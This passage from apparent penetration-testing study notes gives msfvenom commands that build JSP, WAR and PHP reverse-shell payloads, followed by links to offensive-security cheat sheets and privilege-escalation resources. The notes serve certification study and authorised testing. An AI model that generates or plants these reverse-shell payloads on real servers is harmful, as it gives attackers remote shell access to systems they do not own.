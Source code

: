 ## JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

## WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

## PHP
```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

# Resources
- https://book.hacktricks.xyz/
- https://gtfobins.github.io/
- https://lolbas-project.github.io/#
- https://wadcoms.github.io/
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master
- Conda priv esc videos
- Tiber3us Courses
- https://github.com/dievus/printspoofer
- https://github.com/bitsadmin/wesng
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- https://sushant747.gitbooks.io/total-oscp-guide/content/
- https://exploit-db.com
- https://www.securityfocus.com
- https://www.revshells.com/
- https://0xsp.com/offensive/red-team-cheatsheet/
- Crackmapexec - https://wiki.porchetta.industries/
- Windows Priv Exploits - https://github.com/gtworek/Priv2Admin
- https://cheatsheet.haax.fr/

# Cheatsheets
- https://github.com/six2dez/OSCP-Human-Guide/blob/master/oscp_human_guide.md
- https://gitlab.com/lagarian.smith/oscp-cheat-sheet/-/blob/master/OSCP_Notes.md?ref_type=heads
- https://github.com/rodolfomarianocy/OSCP-Tricks-2023/tree/main
- AD Cheatsheet - https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet
- https://therealunicornsecurity.github.io/OSCP
- https://gabb4r.gitbook.io/oscp-notes/